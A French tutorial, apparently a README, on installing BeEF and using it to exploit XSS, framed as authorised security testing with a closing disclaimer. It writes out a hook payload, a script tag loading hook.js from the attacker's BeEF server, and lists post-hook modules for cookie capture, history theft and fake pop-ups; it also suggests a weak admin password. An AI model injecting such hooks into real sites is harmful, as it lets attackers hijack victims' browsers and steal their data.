 # BeEF et Hacking XSS

# 1- Introduction

BeEF, ou Browser Exploitation Framework, est un outil puissant utilisé pour tester la sécurité des navigateurs web en exploitant les vulnérabilités XSS (Cross-Site Scripting). Ce guide vous aidera à comprendre comment utiliser BeEF pour exploiter les vulnérabilités XSS et tester la sécurité de vos applications web.

# 2 - Prérequis

- Une machine avec une distribution Linux (ex. : Ubuntu)
- Ruby installé
- Git installé

# 3 - Installation de BeEF

1. Clonez le dépôt BeEF depuis GitHub :

   ```sh
   git clone https://github.com/beefproject/beef.git
   ```

2. Accédez au répertoire BeEF :

   ```sh
   cd beef
   ```

3. Installez les dépendances :

   ```sh
   ./install
   ```

4. Démarrez BeEF :

   ```sh
   ./beef
   ```

# 4 - Configuration de BeEF

1. Ouvrez le fichier de configuration BeEF (`config.yaml`) dans un éditeur de texte :

   ```sh
   nano config.yaml
   ```

2. Configurez les paramètres suivants :
   
   - `beef.credentials.user: "votre_utilisateur"`
   - `beef.credentials.passwd: "votre_mot_de_passe"`
   - Je propose comme mot de passe le mot de passe suivant : beef_

3. Sauvegardez et fermez le fichier.

# 5 - Utilisation de BeEF

### Accès à l'Interface Web de BeEF

1. Ouvrez votre navigateur et accédez à `http://localhost:3000/ui/panel`.

2. Connectez-vous avec les identifiants configurés dans `config.yaml`.

### Exploitation XSS avec BeEF

#### Injection d'un Hook JavaScript

Pour exploiter une vulnérabilité XSS, vous devez injecter un hook JavaScript dans la page cible. Voici un exemple de code de hook :

```html
<script src="http://[IP_de_votre_serveur]:3000/hook.js"></script>
```

Remplacez `[IP_de_votre_serveur]` par l'adresse IP de votre machine exécutant BeEF.

#### Simulation d'une Attaque XSS

1. Identifiez une vulnérabilité XSS dans l'application web cible.

2. Injectez le code de hook JavaScript dans le champ vulnérable.

3. Une fois le hook exécuté, l'interface BeEF affichera la cible comme un "Zombie Browser".

### Modules d'Exploitation

BeEF fournit plusieurs modules d'exploitation que vous pouvez utiliser une fois que le navigateur de la victime est hooké. Voici quelques exemples :

- **Social Engineering** : Affichage de faux pop-ups, redirections, etc.
- **Network** : Scan de ports, collecte d'informations réseau.
- **Browser** : Récupération d'historique de navigation, capture de cookies.

Pour utiliser un module :

1. Sélectionnez le "Zombie Browser" dans l'interface BeEF.
2. Allez dans l'onglet "Commands".
3. Choisissez un module et cliquez sur "Execute".

# 6 - Conclusion

BeEF est un outil puissant pour tester la sécurité des navigateurs et des applications web contre les attaques XSS. En comprenant comment injecter des hooks JavaScript et utiliser les modules d'exploitation de BeEF, vous pouvez identifier et corriger les vulnérabilités avant qu'elles ne soient exploitées par des attaquants malveillants.

## Avertissement

L'utilisation de BeEF pour attaquer des systèmes sans autorisation est illégale et contraire à l'éthique. Ce guide est destiné à des fins éducatives et de test de sécurité autorisés uniquement. Utilisez BeEF de manière responsable.

## Ressources

- [BeEF Project GitHub](https://github.com/beefproject/beef)
- [OWASP Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)
